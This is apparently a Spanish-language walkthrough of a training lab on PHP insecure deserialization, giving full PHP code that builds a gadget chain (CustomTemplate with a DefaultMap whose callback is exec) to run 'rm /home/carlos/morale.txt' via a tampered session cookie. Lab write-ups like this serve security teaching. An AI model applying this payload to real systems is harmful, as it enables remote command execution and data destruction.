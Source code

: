 Creamos manualmente un objeto **CustomTemplate** que contiene la cadena de gadgets necesaria. En este objeto, el atributo ‘**desc**‘ contiene una instancia de **DefaultMap** cuyo **callback** es la función **exec**. Al deserializarlo, ‘**exec()**‘ se invocará con el valor de ‘**default_desc_type**‘, que contiene nuestro comando malicioso.

Codificamos el objeto en Base64 y lo URL-encodeamos, luego lo inyectamos en la cookie de sesión. Al procesarse, se ejecuta el comando, lo que elimina el archivo ‘**morale.txt**‘ del directorio de Carlos y resuelve el laboratorio.

Solucion
![Pasted_image_20250827015606.png](/Imagenes/Pasted_image_20250827015606.png)
asi que modificamos el codigo
(<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    public function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$obj = new CustomTemplate();
$obj->desc = new DefaultMap("exec");
$obj->default_desc_type = "rm /home/carlos/morale.txt";

echo serialize($obj);
?>)
Ambos códigos comparten la misma estructura de clases (`CustomTemplate`, `Product`, `Description`, `DefaultMap`), pero tienen diferencias **críticas** en cuanto a seguridad, visibilidad y comportamiento al serializar. Vamos a desglosarlo:

🧩 Comparación técnica entre los dos códigos

![Pasted_image_20250827021726.png](/Imagenes/Pasted_image_20250827021726.png)

🔥 ¿Por qué el segundo código es peligroso?

En el segundo código, se hace esto:

$obj->desc = new DefaultMap("exec"); $obj->default_desc_type = "rm /home/carlos/morale.txt";

Y luego se serializa el objeto:

echo serialize($obj);

Cuando este objeto se deserializa, se ejecuta:

$this->product = new Product($this->default_desc_type, $this->desc);

Lo que se traduce en:

$this->desc = $desc->$default_desc_type;

Y como `$desc` es un `DefaultMap`, se invoca:

call_user_func("exec", "rm /home/carlos/morale.txt");

💣 **Resultado**: Se ejecuta un comando del sistema que borra un archivo.

🛡️ Conclusión

- El **primer código** es seguro y bien encapsulado. No permite manipulación externa de propiedades sensibles.
- El **segundo código** es vulnerable a **deserialización insegura**, lo que puede permitir ejecución de comandos arbitrarios si el objeto es manipulado antes de serializar.
ejecutamos
![Pasted_image_20250827021815.png](/Imagenes/Pasted_image_20250827021815.png)
asi que esto hay que representarlo en base64
![Pasted_image_20250827022115.png](/Imagenes/Pasted_image_20250827022115.png)
copiamos la cookie y pegamos
![Pasted_image_20250827022202.png](/Imagenes/Pasted_image_20250827022202.png)
